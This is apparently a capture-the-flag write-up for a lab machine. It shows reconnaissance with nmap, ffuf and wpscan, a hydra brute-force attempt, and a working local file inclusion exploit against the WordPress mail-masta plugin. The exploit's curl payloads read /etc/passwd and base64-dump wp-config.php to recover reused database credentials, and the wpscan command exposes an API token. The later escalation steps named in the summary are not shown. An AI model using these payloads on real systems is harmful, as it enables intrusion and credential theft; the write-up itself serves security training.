## TL;DR

In this challenge we find wordpress service, and exploit `LFI` to get `wp-config.php`, which contains the credentials for `elyana`. After login, we get reverse shell as `www-data`, because we are admin on the wordpress website.

We can find the password of elyana inside `/etc/mysql/conf.d/private.txt`, and then to move to root using SUID binary `/usr/bin/socat` with sudo permissions.

Another way is to use the cronjob script that is being executed with root permissions, and then jumping for `www-data` straight to root.

### Recon

we start with `nmap`, using this command:
```bash
nmap -p- -sVC --min-rate=10000 $target --open -oN nmap.txt -oX nmap.xml
```



We can see port `21` with ftp, port `22` with ssh and port `80` with apache http server.
```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.130.61
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fb:3d:17:01:3e:b3:3f:24:8c:9c:ad:36:5b:60:a9:e7 (RSA)
|   256 95:1d:39:89:46:3c:70:18:46:d5:4d:6f:98:4a:3d:e0 (ECDSA)
|_  256 a6:de:52:c1:7d:30:84:ae:e8:7d:07:23:00:56:1e:d1 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

### Exploit LFI in wordpress vulnerable plugin to get wp-config.php and login as elyana

we can login anonymously to the ftp service, however, it is empty
```bash
ftp anonymous@$target
```



Using `fuff` we can find the endpoint `wordpress`:
```bash
┌──(agonen㉿kali)-[~/thm/AllInOne]
└─$ ffuf -u "http://$target/FUZZ" -w /usr/share/SecLists/Discovery/Web-Content/common.txt  

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.80.144.74/FUZZ
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.htpasswd               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 3619ms]
.htaccess               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 4809ms]
.hta                    [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 5762ms]
index.html              [Status: 200, Size: 10918, Words: 3499, Lines: 376, Duration: 96ms]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 94ms]
wordpress               [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 100ms]
```

Let's explore this endpoint.



As we can see, there is simple wordpress website on this endpoint, let's check for vulnerabilities using `wpscan`.



We use this command to scan, with the free api token we generated.
```bash
wpscan --url http://$target/wordpress -e --api-token A84WpfaaDC3sbFc6WvqlVEvpe7hKJta06iTcavjE9Jw -o wpscan_results.txt
```

We first can detect the users, as we can see we have the user `elyana`.



Next, I tried to brute force the password with `hydra`, but it didn't find the password.

```bash
hydra -l elyana -P /usr/share/wordlists/rockyou.txt allinone http-post-form "/login.php:username=^USER^&password=^PASS^:F=Wrong password"
```



Now we can inspect the vulnerabilites, we can find potential `LFI` vulnerability in `mail-masta` plugin



```bash
| [!] 2 vulnerabilities identified:
 |
 | [!] Title: Mail Masta <= 1.0 - Unauthenticated Local File Inclusion (LFI)
 |     References:
 |      - https://wpscan.com/vulnerability/5136d5cf-43c7-4d09-bf14-75ff8b77bb44
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-10956
 |      - https://www.exploit-db.com/exploits/40290/
 |      - https://www.exploit-db.com/exploits/50226/
 |      - https://cxsecurity.com/issue/WLB-2016080220
```

I went to this website [https://wpscan.com/vulnerability/5136d5cf-43c7-4d09-bf14-75ff8b77bb44/ ](https://wpscan.com/vulnerability/5136d5cf-43c7-4d09-bf14-75ff8b77bb44/)

As we can see, the PoC is very simple, let's try it:



```bash
┌──(agonen㉿kali)-[~/thm/AllInOne]
└─$ curl 'http://allinone/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd'                                                              
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
elyana:x:1000:1000:Elyana:/home/elyana:/bin/bash
mysql:x:110:113:MySQL Server,,,:/nonexistent:/bin/false
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
ftp:x:111:115:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
systemd-timesync:x:113:116:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
tss:x:114:119:TPM software stack,,,:/var/lib/tpm:/bin/false
tcpdump:x:115:120::/nonexistent:/usr/sbin/nologin
usbmux:x:116:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
fwupd-refresh:x:117:121:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
ubuntu:x:1001:1002:Ubuntu:/home/ubuntu:/bin/bash
```

Okay, it worked.



Now, we want to get `wp-config.php`, this is the path for this file, `/var/www/html/wordpress/wp-config.php`.
I tried, to execute:
```bash
curl 'http://allinone/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/www/html/wordpress/wp-config.php'
```
But got nothing back.

Then, I tried with php wrapper, encoding to base64, and it worked
```bash
┌──(agonen㉿kali)-[~/thm/AllInOne]
└─$ curl 'http://allinone/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=php://filter/convert.base64-encode/resource=/var/www/html/wordpress/wp-config.php' 
PD9waHANCi8qKg0KICogVGhlIGJhc2UgY29uZmlndXJhdGlvbiBmb3IgV29yZFByZXNzDQogKg0KICogVGhlIHdwLWNvbmZpZy5waHAgY3JlYXRpb24gc2NyaXB0IHVzZXMgdGhpcyBmaWxlIGR1cmluZyB0aGUNCiAqIGluc3RhbGxhdGlvbi4gWW91IGRvbid0IGhhdmUgdG8gdXNlIHRoZSB3ZWIgc2l0ZSwgeW91IGNhbg0KICogY29weSB0aGlzIGZpbGUgdG8gIndwLWNvbmZpZy5waHAiIGFuZCBmaWxsIGluIHRoZSB2YWx1ZXMuDQogKg0KICogVGhpcyBmaWxlIGNvbnRhaW5zIHRoZSBmb2xsb3dpbmcgY29uZmlndXJhdGlvbnM6DQogKg0KICogKiBNeVNRTCBzZXR0aW5ncw0KICogKiBTZWNyZXQga2V5cw0KICogKiBEYXRhYmFzZSB0YWJsZSBwcmVmaXgNCiAqICogQUJTUEFUSA0KICoNCiAqIEBsaW5rIGh0dHBzOi8vd29yZHByZXNzLm9yZy9zdXBwb3J0L2FydGljbGUvZWRpdGluZy13cC1jb25maWctcGhwLw0KICoNCiAqIEBwYWNrYWdlIFdvcmRQcmVzcw0KICovDQoNCi8vICoqIE15U1FMIHNldHRpbmdzIC0gWW91IGNhbiBnZXQgdGhpcyBpbmZvIGZyb20geW91ciB3ZWIgaG9zdCAqKiAvLw0KLyoqIFRoZSBuYW1lIG9mIHRoZSBkYXRhYmFzZSBmb3IgV29yZFByZXNzICovDQpkZWZpbmUoICdEQl9OQU1FJywgJ3dvcmRwcmVzcycgKTsNCg0KLyoqIE15U1FMIGRhdGFiYXNlIHVzZXJuYW1lICovDQpkZWZpbmUoICdEQl9VU0VSJywgJ2VseWFuYScgKTsNCg0KLyoqIE15U1FMIGRhdGFiYXNlIHBhc3N3b3JkICovDQpkZWZpbmUoICdEQl9QQVNTV09SRCcsICdIQGNrbWVAMTIzJyApOw0KDQovKiogTXlTUUwgaG9zdG5hbWUgKi8NCmRlZmluZSggJ0RCX0hPU1QnLCAnbG9jYWxob3N0JyApOw0KDQovKiogRGF0YWJhc2UgQ2hhcnNldCB0byB1c2UgaW4gY3JlYXRpbmcgZGF0YWJhc2UgdGFibGVzLiAqLw0KZGVmaW5lKCAnREJfQ0hBUlNFVCcsICd1dGY4bWI0JyApOw0KDQovKiogVGhlIERhdGFiYXNlIENvbGxhdGUgdHlwZS4gRG9uJ3QgY2hhbmdlIHRoaXMgaWYgaW4gZG91YnQuICovDQpkZWZpbmUoICdEQl9DT0xMQVRFJywgJycgKTsNCg0Kd29yZHByZXNzOw0KZGVmaW5lKCAnV1BfU0lURVVSTCcsICdodHRwOi8vJyAuJF9TRVJWRVJbJ0hUVFBfSE9TVCddLicvd29yZHByZXNzJyk7DQpkZWZpbmUoICdXUF9IT01FJywgJ2h0dHA6Ly8nIC4kX1NFUlZFUlsnSFRUUF9IT1NUJ10uJy93b3JkcHJlc3MnKTsNCg0KLyoqI0ArDQogKiBBdXRoZW50aWNhdGlvbiBVbmlxdWUgS2V5cyBhbmQgU2FsdHMuDQogKg0KICogQ2hhbmdlIHRoZXNlIHRvIGRpZmZlcmVudCB1bmlxdWUgcGhyYXNlcyENCiAqIFlvdSBjYW4gZ2VuZXJhdGUgdGhlc2UgdXNpbmcgdGhlIHtAbGluayBodHRwczovL2FwaS53b3JkcHJlc3Mub3JnL3NlY3JldC1rZXkvMS4xL3NhbHQvIFdvcmRQcmVzcy5vcmcgc2VjcmV0LWtleSBzZXJ2aWNlfQ0KICogWW91IGNhbiBjaGFuZ2UgdGhlc2UgYXQgYW55IHBvaW50IGluIHRpbWUgdG8gaW52YWxpZGF0ZSBhbGwgZXhpc3RpbmcgY29va2llcy4gVGhpcyB3aWxsIGZvcmNlIGFsbCB1c2VycyB0byBoYXZlIHRvIGxvZyBpbiBhZ2Fpbi4NCiAqDQogKiBAc2luY2UgMi42LjANCiAqLw0KZGVmaW5lKCAnQVVUSF9LRVknLCAgICAgICAgICd6a1klbSVSRlliOnUsL2xxLWlafjhmakVOZElhU2I9Xms8M1pyLzBEaUxacVB4enxBdXFsaTZsWi05RFJhZ0pQJyApOw0KZGVmaW5lKCAnU0VDVVJFX0FVVEhfS0VZJywgICdpQVlhazxfJn52OW8re2JAUlBSNjJSOSBUeS0gNlUteUg1YmFVRHs7bmRTaUNbXXFvc3hTQHNjdSZTKWQkSFtUJyApOw0KZGVmaW5lKCAnTE9HR0VEX0lOX0tFWScsICAgICdhUGRfKnNCZj1adWMrK2FdNVZnOT1QfnUwM1EsenZwW2VVZS99KUQ9Ok55aFVZe0tYUl10N300MlVwa1tyNz9zJyApOw0KZGVmaW5lKCAnTk9OQ0VfS0VZJywgICAgICAgICdAaTtUKHt4Vi9mdkUhcyteZGU3ZTRMWDN9TlRAIGo7YjRbejNfZkZKYmJXKG5vIDNPN0ZAc3gwIW95KE9gaCNNJyApOw0KZGVmaW5lKCAnQVVUSF9TQUxUJywgICAgICAgICdCIEFUQGk+KiBOI1c8biEqfGtGZE1uUU4pPl49XihpSHA4VXZnPH4ySH56Rl1pZHlRPXtAfTF9KnJ7bFowLFdZJyApOw0KZGVmaW5lKCAnU0VDVVJFX0FVVEhfU0FMVCcsICdoeDhJOitUejhuMzM1V2htels+JFVaOzhyUVlLPlJ6XVZHeUJkbW83PSZHWiFMTyxwQU1zXWYhelZ9eG46NEFQJyApOw0KZGVmaW5lKCAnTE9HR0VEX0lOX1NBTFQnLCAgICd4N3I+fGMwTUxecztTdzIqVSF4LntgNUQ6UDF9Vz0gL2Npe1E8dEVNPXRyU3YxZWVkfF9mc0xgeV5TLFhJPFJZJyApOw0KZGVmaW5lKCAnTk9OQ0VfU0FMVCcsICAgICAgICd2T2IlV3R5fSR6eDlgfD40NUlwQHN5WiBdRzpDM3xTZEQtUDM8e1lQOi5qUERYKUh9d0dtMSpKXk1TYnMkMWB8JyApOw0KDQovKiojQC0qLw0KDQovKioNCiAqIFdvcmRQcmVzcyBEYXRhYmFzZSBUYWJsZSBwcmVmaXguDQogKg0KICogWW91IGNhbiBoYXZlIG11bHRpcGxlIGluc3RhbGxhdGlvbnMgaW4gb25lIGRhdGFiYXNlIGlmIHlvdSBnaXZlIGVhY2gNCiAqIGEgdW5pcXVlIHByZWZpeC4gT25seSBudW1iZXJzLCBsZXR0ZXJzLCBhbmQgdW5kZXJzY29yZXMgcGxlYXNlIQ0KICovDQokdGFibGVfcHJlZml4ID0gJ3dwXyc7DQoNCi8qKg0KICogRm9yIGRldmVsb3BlcnM6IFdvcmRQcmVzcyBkZWJ1Z2dpbmcgbW9kZS4NCiAqDQogKiBDaGFuZ2UgdGhpcyB0byB0cnVlIHRvIGVuYWJsZSB0aGUgZGlzcGxheSBvZiBub3RpY2VzIGR1cmluZyBkZXZlbG9wbWVudC4NCiAqIEl0IGlzIHN0cm9uZ2x5IHJlY29tbWVuZGVkIHRoYXQgcGx1Z2luIGFuZCB0aGVtZSBkZXZlbG9wZXJzIHVzZSBXUF9ERUJVRw0KICogaW4gdGhlaXIgZGV2ZWxvcG1lbnQgZW52aXJvbm1lbnRzLg0KICoNCiAqIEZvciBpbmZvcm1hdGlvbiBvbiBvdGhlciBjb25zdGFudHMgdGhhdCBjYW4gYmUgdXNlZCBmb3IgZGVidWdnaW5nLA0KICogdmlzaXQgdGhlIGRvY3VtZW50YXRpb24uDQogKg0KICogQGxpbmsgaHR0cHM6Ly93b3JkcHJlc3Mub3JnL3N1cHBvcnQvYXJ0aWNsZS9kZWJ1Z2dpbmctaW4td29yZHByZXNzLw0KICovDQpkZWZpbmUoICdXUF9ERUJVRycsIGZhbHNlICk7DQoNCi8qIFRoYXQncyBhbGwsIHN0b3AgZWRpdGluZyEgSGFwcHkgcHVibGlzaGluZy4gKi8NCg0KLyoqIEFic29sdXRlIHBhdGggdG8gdGhlIFdvcmRQcmVzcyBkaXJlY3RvcnkuICovDQppZiAoICEgZGVmaW5lZCggJ0FCU1BBVEgnICkgKSB7DQoJZGVmaW5lKCAnQUJTUEFUSCcsIF9fRElSX18gLiAnLycgKTsNCn0NCg0KLyoqIFNldHMgdXAgV29yZFByZXNzIHZhcnMgYW5kIGluY2x1ZGVkIGZpbGVzLiAqLw0KcmVxdWlyZV9vbmNlIEFCU1BBVEggLiAnd3Atc2V0dGluZ3MucGhwJzsNCg==
```



Okay, let's decode it:
```bash
curl 'http://allinone/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=php://filter/convert.base64-encode/resource=/var/www/html/wordpress/wp-config.php' | base64 -d > wp-config.php
```



We got this:
```bash
define( 'DB_NAME', 'wordpress' );                                                                                                                                                            
                                                                                                                                                                                             
/** MySQL database username */                                                                                                                                                               
define( 'DB_USER', 'elyana' );                                                                                                                                                               
                                                                                                                                                                                             
/** MySQL database password */                                                                                                                                                               
define( 'DB_PASSWORD', 'H@ckme@123' );                                                                                                                                                       
                                                                                                                                                                                             
/** MySQL hostname */                                                                                                                                                                        
define( 'DB_HOST', 'localhost' );
```

We can now try to login with these credentials, maybe they reuse the password:

```bash
elyana:H@ckme@123
```

The login worked.

